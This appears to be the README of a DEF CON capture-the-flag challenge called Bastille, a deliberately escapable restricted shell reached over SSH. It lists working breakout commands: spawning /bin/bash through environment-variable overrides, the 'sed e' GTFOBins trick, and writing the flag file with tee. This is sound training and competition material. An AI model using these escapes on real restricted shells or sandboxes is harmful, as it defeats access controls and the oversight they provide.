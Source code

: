 # Bastille

Go directly to jail, do not pass go, do not collect $200!



Bastille is a retro style shell escape vulnerability. The user is dropped into a restricted shell and must escape to get access to features that they wouldnt normally have.
For DEF CON, Bastille is run behind an SSH server with a known password. The competitors must SSH onto the server and then escape the shell to plant the flag.


## Running
To run the server in the competition environment, use the following docker-compose file
```yaml
version: '3'
services:
  bastile:
    build: .
    user: user
    restart: always
```

## Escape Techniques

1. Env override: If a binary is set in an environment variable, then it can be executed
    1. Set Env with `.env` file. Respawn the shell and then execute the variable
    ```
    [bastille] cwd > tee .env
    VAR=/bin/bash
    [bastille] cwd > $SHELL
    [bastille] cwd > $VAR
    ```

    2. Set the env with SSH
    ```
    LANG=/bin/bash ssh -o SendEnv=LANG user@target
    [bastille] cwd > $VAR
    ```

2. GTFO Bins with sed/awk
  ```
  [bastille] cwd > sed e
  ```

3. Write to the flag without escaping
  ```
  [bastille] cwd > tee a a a a a a a a a a a a a a a a a a a a /flags/flag.txt
  <YOUR FLAG HERE> 
  ```